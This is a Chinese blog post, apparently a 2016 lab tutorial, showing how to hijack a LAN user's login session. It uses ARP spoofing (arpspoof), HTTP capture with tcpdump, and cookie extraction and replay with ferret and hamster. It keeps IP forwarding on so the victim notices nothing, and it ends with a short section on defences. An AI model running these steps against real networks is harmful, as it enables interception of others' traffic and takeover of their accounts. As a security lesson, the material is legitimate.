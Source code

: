 ```yaml
---
layout:     post
title:      "内网安全之 ARP 欺骗"
subtitle:   "内网姿势系列"
date:       2016-06-23 21:32 +0800
author:     "gsfish"
header-img: "img/post-bg-kali.jpg"
tags:
    - 内网安全
    - 渗透
---
```



# 0x00 实验环境

```
网关：
192.168.1.1
 
攻击者：  
IP: 192.168.1.110
OS: Kali Linux (VirtualBox)

靶机：
IP: 192.168.1.105
OS: Windows 10 Home
```


# 0x01 基本思路

1. 首先通过 ARP 欺骗使靶机与网关间的数据包经由攻击者主机转发
2. 等待目标用户进行登陆操作，抓取 HTTP 数据包
3. 解析所抓取的数据包，并提取出 Cookie
4. 将 Cookie 导入浏览器，从而实现劫持目标用户的会话


# 0x02 工具准备

## 安装 ferret

除 `ferret` 的其他 3 个工具已经集成在 Kali 中了，我们要自行安装 `ferret`（64 位 Kali 需要增加对 32 位程序的支持才能在源中找到它）。这个工具连同 `hamster` 是由一个名叫 [Robert Graham](https://github.com/robertdavidgraham) 的黑客开发的。

增加包管理器对 32 位程序的支持，更新源并安装工具：

```
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install ferret-sidejack
```

## 开启 IP 转发

使用 arpspoof 进行 ARP 欺骗前需要开启本机的 IP 转发（这个临时的，重启后会失效），不然目标用户在攻击期间会无法上网，从而起疑。

```
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
```


# 0x03 作战开始

## 进行 ARP 欺骗

```
sudo arpspoof -i eth0 -t 192.168.1.105 192.168.1.1
sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.105

说明：
-i  所用的网卡设备名
-t  攻击目标的 IP（由于是单向的，所以需要开启两个）
```

![01.png](/img/lan-attack-cookie-hijack/01.png)

![02.png](/img/lan-attack-cookie-hijack/02.png)

这两个窗口在攻击过程中要一直保持。然后进入靶机，打开命令提示符：

`arp -a`

![03.png](/img/lan-attack-cookie-hijack/03.png)

可以看到 ARP 缓存表中网关的 MAC 已经变成攻击者的了，取得初步胜利~

## 抓取 HTTP 数据包

```
sudo tcpdump -i eth0 tcp port 80 and host 192.168.1.105 -w cookie.cap

说明：
-i  所用的网卡设备名
-w  生成数据包的名称
tcp port 80 and host 192.168.1.105  抓取通过 192.168.1.105:80 的数据包
```

等待目标用户登陆网站或访问任何登陆后的页面，于是就可以抓到含有 Cookie 的 HTTP 数据包了。过一段时间后停止抓取（这只能抓取 HTTP 流量，如果网站启用了 HTTPS 就需要采用新的姿势了，例如 SSLstrip）。

![04.png](/img/lan-attack-cookie-hijack/04.png)

在家目录下会生成一个 `cookie.cap` 文件，这就是我们一直在抓的数据包了。然而现在我们还看不懂其中的内容，需要用 `ferret` 来解析一下。

## 解析 cookie.cap

```
ferret -r cookie.cap

说明：
-r  读取数据包并将其解析，生成 hamster.txt
-i  所用的网卡设备名（其实 ferret 也有抓包的功能）
```

![05.png](/img/lan-attack-cookie-hijack/05.png)

此时数据包中的内容已被解析并保存到了家目录中的 `hamster.txt`。

## 加载 Cookie 模拟登陆

直接运行即可：

```
hamster
```

`hamster` 是一个十分高效的工具，直接输入命令即可打开。虽然 Firefox 的一些插件自定义 Cookie，但 `hamster` 能很方便地把我们生成的 `hamster.txt` 中的 Cookie 信息自动导入到浏览器中：

![06.png](/img/lan-attack-cookie-hijack/06.png)

打开浏览器，设置代理为 `127.0.0.1`，端口 `1234`：

![07.png](/img/lan-attack-cookie-hijack/07.png)

在地址栏输入 `127.0.0.1:1234`。点击 `192.168.1.105`，接着出现以下页面：

![08.png](/img/lan-attack-cookie-hijack/08.png)

在左侧栏我们看到了 `http://weibo.com/...`。点击链接，成功利用目标用户的 Cookie 登陆器其新浪微博。把这个地址复制到地址栏后就可以正常使用其微博的所有功能啦：

![09.png](/img/lan-attack-cookie-hijack/09.png)


# 0x04 防御 ARP 欺骗

如果你平时大部分时间使用的都是公共网络，而你的身边恰好有人喜欢搞过安全，那就别浏览那些比较私密的东西啦。同时这也告诉我们，最好不要使用机场、餐厅这些公共场合的 WIFI 进行一些登陆的操作（除非使用了 VPN）。

关于 ARP 攻击的防范方面，主机和路由器都需要进行相关设置的。路由器要在管理页面设置 MAC 绑定，而主机方面可以通过 `arp -s` 这个命令将网关的 IP 与 MAC 进行绑定。

同学 [@yungkcx](https://github.com/yungkcx) 刚好写了一篇相关的博客，在此安利一波：

[https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html](https://yungkcx.github.io/network/security/2016/06/10/An-ARP-Attack.html)


# 参考文献

1. [Anka9080. 『局域网安全』利用ARP欺骗劫持Cookie[EB/OL]. http://www.cnblogs.com/anka9080/p/arpspoof.html](http://www.cnblogs.com/anka9080/p/arpspoof.html)
